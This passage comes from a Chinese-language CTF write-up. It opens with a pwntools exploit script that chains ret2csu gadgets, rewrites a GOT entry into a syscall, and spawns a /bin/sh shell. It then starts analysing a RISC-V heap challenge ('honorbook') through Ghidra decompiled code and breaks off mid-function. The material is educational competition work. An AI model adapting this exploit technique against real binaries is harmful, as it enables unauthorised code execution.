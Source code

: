 ```
    payload = p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    return payload

def csu3(rbx, rbp, r12, r13, r14, r15, last):
    payload = p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    return payload

main_addr = 0x4007e9
def Pwn():
    read_plt = 0x601020
    alarm_got = 0x601018
    bin_sh_addr = 0x6010a0
    gdb.attach(p, 'bp 0x4007fd')
    #change alarm_got to syscall
    payload = csu(0, 1, read_plt, 1, alarm_got, 0, csu_end_addr) + csu2(0,1,read_plt,59,bin_sh_addr,0, csu_end_addr)+csu3(0,1,alarm_got,0,0,bin_sh_addr,main_addr)
    p.send(payload)
    raw_input()
    p.send(b'\x85')

    raw_input()
    p.send(b'/bin/sh\x00'.ljust(59, '\x00'))

    p.interactive()

Pwn()
```

## 第二场

### <a class="reference-link" name="honorbook"></a>honorbook

基于 riscv架构的，IDA不能反汇编，后面选择用 ghidra，发现也反汇编不了。但是，官网现在最新版的ghidra可以。一旦能够反汇编，这道题其实挺常规的。

#### <a class="reference-link" name="%E7%A8%8B%E5%BA%8F%E5%88%86%E6%9E%90"></a>程序分析

```
void add(void)

`{`
  longlong lVar1;
  char *chunk_ptr;
  void *name;
  void *chunk;
  char *size;
  ulonglong idx;

  lVar1 = __stack_chk_guard;
  std::__ostream_insert&lt;char,std::char_traits&lt;char&gt;&gt;((basic_ostream *)std::cout,"ID: ",4);
  scanf("%ld");
  if (idx &lt; 0x30) `{`
    if (*(longlong *)(&amp;gp0xfffffffffffffa60 + idx * 8) == 0) `{`
      name = operator.new(0x20);
      std::__ostream_insert&lt;char,std::char_traits&lt;char&gt;&gt;
```